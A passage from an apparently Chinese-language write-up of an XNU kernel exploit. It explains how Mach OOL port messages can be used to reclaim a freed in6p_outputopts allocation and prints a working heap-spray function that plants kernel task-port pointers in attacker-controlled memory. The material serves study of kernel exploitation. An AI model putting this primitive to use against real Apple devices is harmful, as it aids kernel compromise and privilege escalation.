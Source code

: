 这里需要提两个概念，一个是结构体`ipc_space`，它是整个Task的IPC空间，另一个是结构体`ipc_entry`，它指向的是结构体`ipc_object`，结构体`ipc_space`有一个成员`is_table`专门用于存储当前Task所有的`ipc_entry`，在我们这里的场景，`ipc_entry`指向的是`ipc_port`，也就是说，变量`entry`拿到的是最开始传入的`Task Port`在内核态的地址

```c
ipc_entry_t
ipc_entry_lookup(
	ipc_space_t		space,
	mach_port_name_t	name)
{
	mach_port_index_t index;
	ipc_entry_t entry;
	index = MACH_PORT_INDEX(name);
	if (index <  space->is_table_size) {
                entry = &space->is_table[index];
		...
	}

	return entry;
}
```

层层往回走，函数`ipc_object_copyin()`的参数`objectp`会被存储到Caller函数`ipc_kmsg_copyin_ool_ports_descriptor()`的`objects[]`数组里，数组`objects[]`在函数`ipc_kmsg_copyin_ool_ports_descriptor`进行内存空间分配，所以我们只要让`ports_length`等于`inp->in6p_outputopts`的大小，就可以让它分配到我们释放掉的空间里

```c
data = kalloc(ports_length);
objects = (ipc_object_t *) data;
```

先创建一个`Ports`数组用于存储传入的用户态`Task Port`，然后构造`OOL Message`，其它都不重要，主要看`msg->ool_ports.address`和`msg->ool_ports.count`，这两个构造好就行，调用函数`msg_send()`发送消息，此时就会发生内存分配，将用户态`Task Port`转为`Task Port`的内核态地址并写入我们可控的内存空间

```c
mach_port_t fill_kalloc_with_port_pointer(mach_port_t target_port, int count, int disposition) {
    mach_port_t q = MACH_PORT_NULL;
    kern_return_t err;
    err = mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &q);
    mach_port_t* ports = malloc(sizeof(mach_port_t) * count);
    for (int i = 0; i < count; i++) {
        ports[i] = target_port;
    }
    struct ool_msg* msg = (struct ool_msg*)calloc(1, sizeof(struct ool_msg));
    msg->hdr.msgh_bits = MACH_MSGH_BITS_COMPLEX | MACH_MSGH_BITS(MACH_MSG_TYPE_MAKE_SEND, 0);
    msg->hdr.msgh_size = (mach_msg_size_t)sizeof(struct ool_msg);
    msg->hdr.msgh_remote_port = q;
    msg->hdr.msgh_local_port = MACH_PORT_NULL;
    msg->hdr.msgh_id = 0x41414141;
    msg->body.msgh_descriptor_count = 1;
    msg->ool_ports.address = ports;
    msg->ool_ports.count = count;
    msg->ool_ports.deallocate = 0;
    msg->ool_ports.disposition = disposition;
    msg->ool_ports.type = MACH_MSG_OOL_PORTS_DESCRIPTOR;
    msg->ool_ports.copy = MACH_MSG_PHYSICAL_COPY;
    err = mach_msg(&msg->hdr,
                   MACH_SEND_MSG|MACH_MSG_OPTION_NONE,
                   msg->hdr.msgh_size,
                   0,
                   MACH_PORT_NULL,
                   MACH_MSG_TIMEOUT_NONE,
                   MACH_PORT_NULL);
    return q;
}
```
